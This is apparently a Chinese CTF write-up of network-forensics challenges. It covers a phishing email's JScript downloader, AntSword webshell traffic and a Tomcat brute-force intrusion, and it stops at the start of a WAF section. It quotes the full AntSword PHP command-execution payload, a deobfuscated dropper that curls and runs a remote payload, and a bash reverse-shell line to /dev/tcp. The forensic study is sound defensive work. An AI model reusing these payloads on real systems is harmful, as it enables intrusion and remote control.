# 流量特征分析-小王公司收到的钓鱼邮件

## 一,下载数据包文件 hacker1.pacapng，分析恶意程序访问了内嵌 URL 获取了 zip 压缩包，该 URL 是什么将该 URL作为 FLAG 提交 FLAG（形式：flag{xxxx.co.xxxx/w0ks//?YO=xxxxxxx}） (无需 http、https)；



找到压缩包流量



> **flag{http://tsdandassociates.co.sz/w0ks//?YO=1702920835}**

## 二,下载数据包文件 hacker1.pacapng，分析获取到的 zip 压缩包的 MD5 是什么 作为 FLAG 提交 FLAG（形式：flag{md5}）；


提取出压缩包

```shell
f17dc5b1c30c512137e62993d1df9b2f  1.zip
```

> $ md5sum 1.zip

> **flag{f17dc5b1c30c512137e62993d1df9b2f}**

## 三,下载数据包文件 hacker1.pacapng，分析 zip 压缩包通过加载其中的 javascript 文件到另一个域名下载后续恶意程序， 该域名是什么?提交答案:flag{域名}(无需 http、https)

```shell
/* Blanditiis vel dolorem alias ullam similique. */ /* Et reprehenderit blanditiis qui veniam voluptas. */
/* Et eveniet ea est quis error soluta. */ /* Molestiae non eos similique consectetur facere. */ /* Velit quis et ab aut tempora quasi. */ /* Harum et maiores vel et. */                 x808919187 = '';
/* Aperiam aliquam nemo molestias exercitationem. */ /* Placeat ratione nostrum cumque tempore. */ /* Consequatur consectetur sed rerum aperiam quia. */ /* Libero rem et error sit sit ut. */ x808919187+='t';
/* Et laudantium mollitia itaque. */ /* Suscipit nostrum sequi soluta est. */ /* Nobis voluptatem labore aut nihil. */ x808919187+='r';
/* Ipsum sit neque debitis sunt. */ /* Et eum doloribus eos cupiditate deserunt. */ x808919187+='u';
/* Quia vitae omnis molestiae. */ /* Eaque nihil aut neque saepe iste minus et. */ /* Quia eveniet sit iusto molestias quidem non. */ x808919187+='e';
/* Ex est saepe illo animi libero aut quos magnam. */ /* Sequi est at ex sed. */ /* Provident sed est maiores dolor odio nostrum. */ x449195806 = '';
/* Porro minima ab reprehenderit non eaque dolore. */ /* Ut in porro molestiae non qui. */ /* Sed quis qui ipsum repellat. */ x449195806+='f';
/* Non autem iste aut aut et sequi explicabo. */ /* Quisquam qui eaque eligendi temporibus quas. */ /* Voluptatem facilis deserunt et et odio. */ /* Accusantium accusantium et neque molestias. */ x449195806+='a';
/* Aliquam qui quisquam quasi rem fugit. */ /* Doloribus saepe repudiandae vel et. */ /* Voluptatem amet adipisci aut inventore minus. */ /* Sed cum sunt dolor occaecati similique. */ /* Non doloremque culpa dolores illo. */ x449195806+='l';/* Blanditiis vel dolorem alias ullam similique. */ /* Et reprehenderit blanditiis qui veniam voluptas. */
/* Et eveniet ea est quis error soluta. */ /* Molestiae non eos similique consectetur facere. */ /* Velit quis et ab aut tempora quasi. */ /* Harum et maiores vel et. */                 x808919187 = '';
/* Aperiam aliquam nemo molestias exercitationem. */ /* Placeat ratione nostrum cumque tempore. */ /* Consequatur consectetur sed rerum aperiam quia. */ /* Libero rem et error sit sit ut. */ x808919187+='t';
/* Et laudantium mollitia itaque. */ /* Suscipit nostrum sequi soluta est. */ /* Nobis voluptatem labore aut nihil. */ x808919187+='r';
/* Ipsum sit neque debitis sunt. */ /* Et eum doloribus eos cupiditate deserunt. */ x808919187+='u';
/* Quia vitae omnis molestiae. */ /* Eaque nihil aut neque saepe iste minus et. */ /* Quia eveniet sit iusto molestias quidem non. */ x808919187+='e';
/* Ex est saepe illo animi libero aut quos magnam. */ /* Sequi est at ex sed. */ /* Provident sed est maiores dolor odio nostrum. */ x449195806 = '';
/* Porro minima ab reprehenderit non eaque dolore. */ /* Ut in porro molestiae non qui. */ /* Sed quis qui ipsum repellat. */ x449195806+='f';
/* Non autem iste aut aut et sequi explicabo. */ /* Quisquam qui eaque eligendi temporibus quas. */ /* Voluptatem facilis deserunt et et odio. */ /* Accusantium accusantium et neque molestias. */ x449195806+='a';
/* Aliquam qui quisquam quasi rem fugit. */ /* Doloribus saepe repudiandae vel et. */ /* Voluptatem amet adipisci aut inventore minus. */ /* Sed cum sunt dolor occaecati similique. */ /* Non doloremque culpa dolores illo. */ x449195806+='l';
```

> $ head Nuj.js 

去掉注释提取出`js`代码

```shell
truefalse.match(  )( new ActiveXObject( WScript.Shell ) ).Run( \\, ,  )undefinedcmd.exe /c del WScript.ScriptFullNamecmd.exe /c echo|set /p=cu > %temp%dolorem.p.batcmd.exe /c echo rl  --output %temp%dolorem.p --ssl-no-revoke --insecure --location >> %temp%dolorem.p.batcmd.exe /c %temp%dolorem.p.bat%temp%dolorem.p.batcmd.exe /c ren %temp%dolorem.p rundll32 %temp% Entercmd.exe /c %temp%https://shakyastatuestrade.com/IhA6F/616231603qui.q
```

> $ sed -r 's#/\*.*\*/##g' Nuj.js|grep "'.'" -o|awk -F '' '{print $2}'|paste -sd ''

> **flag{shakyastatuestrade.com}**


# 流量特征分析-蚁剑流量分析



搜索`http`流找到后门,跟踪发现蚁剑流量

`decode`

```http
POST /1.php HTTP/1.1
Host: 192.168.200.54
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_6; zh-cn) AppleWebKit/533.20.25 (KHTML, like Gecko) Version/5.0.4 Safari/533.20.27
Content-Type: application/x-www-form-urlencoded
Content-Length: 4861
Connection: close

1=@ini_set("display_errors", "0");@set_time_limit(0);$opdir=@ini_get("open_basedir");if($opdir) {$ocwd=dirname($_SERVER["SCRIPT_FILENAME"]);$oparr=preg_split(base64_decode("Lzt8Oi8="),$opdir);@array_push($oparr,$ocwd,sys_get_temp_dir());foreach($oparr as $item) {if(!@is_writable($item)){continue;};$tmdir=$item."/.d53e47c56e78";@mkdir($tmdir);if(!@file_exists($tmdir)){continue;}$tmdir=realpath($tmdir);@chdir($tmdir);@ini_set("open_basedir", "..");$cntarr=@preg_split("/\\\\|\//",$tmdir);for($i=0;$i<sizeof($cntarr);$i++){@chdir("..");};@ini_set("open_basedir","/");@rmdir($tmdir);break;};};;function asenc($out){return $out;};function asoutput(){$output=ob_get_contents();ob_end_clean();echo "2c"."3f5";echo @asenc($output);echo "20"."c49";}ob_start();try{$p=base64_decode(substr($_POST["ma569eedd00c3b"],2));$s=base64_decode(substr($_POST["ucc3f8650c92ac"],2));$envstr=@base64_decode(substr($_POST["e5d0dbe94954b3"],2));$d=dirname($_SERVER["SCRIPT_FILENAME"]);$c=substr($d,0,1)=="/"?"-c \"{$s}\"":"/c \"{$s}\"";if(substr($d,0,1)=="/"){@putenv("PATH=".getenv("PATH").":/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin");}else{@putenv("PATH=".getenv("PATH").";C:/Windows/system32;C:/Windows/SysWOW64;C:/Windows;C:/Windows/System32/WindowsPowerShell/v1.0/;");}if(!empty($envstr)){$envarr=explode("|||asline|||", $envstr);foreach($envarr as $v) {if (!empty($v)) {@putenv(str_replace("|||askey|||", "=", $v));}}}$r="{$p} {$c}";function fe($f){$d=explode(",",@ini_get("disable_functions"));if(empty($d)){$d=array();}else{$d=array_map('trim',array_map('strtolower',$d));}return(function_exists($f)&&is_callable($f)&&!in_array($f,$d));};function runshellshock($d, $c) {if (substr($d, 0, 1) == "/" && fe('putenv') && (fe('error_log') || fe('mail'))) {if (strstr(readlink("/bin/sh"), "bash") != FALSE) {$tmp = tempnam(sys_get_temp_dir(), 'as');putenv("PHP_LOL=() { x; }; $c >$tmp 2>&1");if (fe('error_log')) {error_log("a", 1);} else {mail("a@127.0.0.1", "", "", "-bv");}} else {return False;}$output = @file_get_contents($tmp);@unlink($tmp);if ($output != "") {print($output);return True;}}return False;};function runcmd($c){$ret=0;$d=dirname($_SERVER["SCRIPT_FILENAME"]);if(fe('system')){@system($c,$ret);}elseif(fe('passthru')){@passthru($c,$ret);}elseif(fe('shell_exec')){print(@shell_exec($c));}elseif(fe('exec')){@exec($c,$o,$ret);print(join("
",$o));}elseif(fe('popen')){$fp=@popen($c,'r');while(!@feof($fp)){print(@fgets($fp,2048));}@pclose($fp);}elseif(fe('proc_open')){$p = @proc_open($c, array(1 => array('pipe', 'w'), 2 => array('pipe', 'w')), $io);while(!@feof($io[1])){print(@fgets($io[1],2048));}while(!@feof($io[2])){print(@fgets($io[2],2048));}@fclose($io[1]);@fclose($io[2]);@proc_close($p);}elseif(fe('antsystem')){@antsystem($c);}elseif(runshellshock($d, $c)) {return $ret;}elseif(substr($d,0,1)!="/" && @class_exists("COM")){$w=new COM('WScript.shell');$e=$w->exec($c);$so=$e->StdOut();$ret.=$so->ReadAll();$se=$e->StdErr();$ret.=$se->ReadAll();print($ret);}else{$ret = 127;}return $ret;};$ret=@runcmd($r." 2>&1");print ($ret!=0)?"ret={$ret}":"";;}catch(Exception $e){echo "ERROR://".$e->getMessage();};asoutput();die();&e5d0dbe94954b3=SR&ma569eedd00c3b=38L2Jpbi9zaA==&ucc3f8650c92ac=AkY2QgIi92YXIvd3d3L2h0bWwiO2lkO2VjaG8gZTEyNGJjO3B3ZDtlY2hvIDQzNTIzHTTP/1.1 200 OK
Date: Fri, 04 Aug 2023 02:41:39 GMT
Server: Apache/2.4.38 (Debian)
Vary: Accept-Encoding
Content-Encoding: gzip
Content-Length: 84
Connection: close
Content-Type: text/html; charset=UTF-8

2c3f5uid=33(www-data) gid=33(www-data) groups=33(www-data)
e124bc
/var/www/html
43523
20c49
```

## 一,木马的连接密码是多少

```http
POST /1.php HTTP/1.1
Host: 192.168.200.54
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Macintosh; U; Intel Mac OS X 10_6_6; zh-cn) AppleWebKit/533.20.25 (KHTML, like Gecko) Version/5.0.4 Safari/533.20.27
Content-Type: application/x-www-form-urlencoded
Content-Length: 4861
Connection: close

1=@ini_set("display_errors", "0");@set_time_limit(0);$opdir=@ini_get("open_basedir");if($opdir) {$ocwd
```

> **flag{1}**

## 二,黑客执行的第一个命令是什么

分析流量包,得到有效荷载

```txt
ma569eedd00c3b=38L2Jpbi9zaA==&ucc3f8650c92ac=AkY2QgIi92YXIvd3d3L2h0bWwiO2lkO2VjaG8gZTEyNGJjO3B3ZDtlY2hvIDQzNTIz
```

删去头两个字符`base64`解密后得到执行的命令为`/bin/sh cd "/var/www/html";id;echo e124bc;pwd;echo 43523`

> **flag{id}**

## 三,黑客读取了哪个文件的内容，提交文件绝对路径

分析步骤同上,分析其余的数据包

```shell
cd "/var/www/html";cat /etc/passwd;echo e124bc;pwd;echo 43523%
```

> echo -n 'Y2QgIi92YXIvd3d3L2h0bWwiO2NhdCAvZXRjL3Bhc3N3ZDtlY2hvIGUxMjRiYztwd2Q7ZWNobyA0MzUyMw=='|base64 -d

> **flag{/etc/passwd}**

## 四,黑客上传了什么文件到服务器，提交文件名

分析步骤同上,分析其余的数据包

```shell
/var/www/html/flag.txt
```

> $ echo -n 'L3Zhci93d3cvaHRtbC9mbGFnLnR4dA=='|base64 -d

> **flag{flag.txt}**

## 五,黑客上传的文件内容是什么



查看数据包并且根据十六进制还原明文

```python3
In [31]: a = '666C61677B77726974655F666C61677D0A'

In [32]: for i in range(0,len(a),2):
    ...:     print(chr(int(a[i:i+2],16)),end='')
    ...:
flag{write_flag}
```

> **flag{write_flag}**

## 六,黑客下载了哪个文件，提交文件绝对路径

```shell
/var/www/html/config.php
```

> $ echo -n 'L3Zhci93d3cvaHRtbC9jb25maWcucGhw'|base64 -d  

> **flag{/var/www/html/config.php}**

# 流量特征分析-常见攻击事件 tomcat

## 一,在web服务器上发现的可疑活动,流量分析会显示很多请求,这表明存在恶意的扫描行为,通过分析扫描的行为后提交攻击者IP flag格式：flag{ip}，如：flag{127.0.0.1}



> **flag{14.0.0.120}**

## 二,找到攻击者IP后请通过技术手段确定其所在地址 flag格式: flag{城市英文小写}



> https://www.chaipip.com/aiwen.html

> **flag{guangzhou}**

## 三,哪一个端口提供对web服务器管理面板的访问？ flag格式：flag{2222}



> /manager目录

> **flag(8080)**

## 四,经过前面对攻击者行为的分析后,攻击者运用的工具是？ flag格式：flag{名称}



看攻击流量的请求头

> **flag{gobuster}**

## 五,攻击者拿到特定目录的线索后,想要通过暴力破解的方式登录,请通过分析流量找到攻击者登录成功的用户名和密码？ flag格式：flag{root-123}



登陆一般是`POST`,优先看`POST`流量

> **flag{admin-tomcat}**

## 六,攻击者登录成功后,先要建立反弹shell,请分析流量提交恶意文件的名称？ flag格式：flag{114514.txt}



看`upload`目录相关的流量

> **flag{JXQOZY.war}**

## 七,攻击者想要维持提权成功后的登录,请分析流量后提交关键的信息？ flag提示,某种任务里的信息



搜索`whoami`搜索到一个流量

> **flag{/bin/bash -c 'bash -i >& /dev/tcp/14.0.0.120/443 0>&1'}**

# 流量特征分析-waf 上的截获的黑客攻击流量

确定攻击者`ip`再进行筛选

## 一,黑客成功登录系统的密码 flag{xxxxxxxxxxxxxxx}

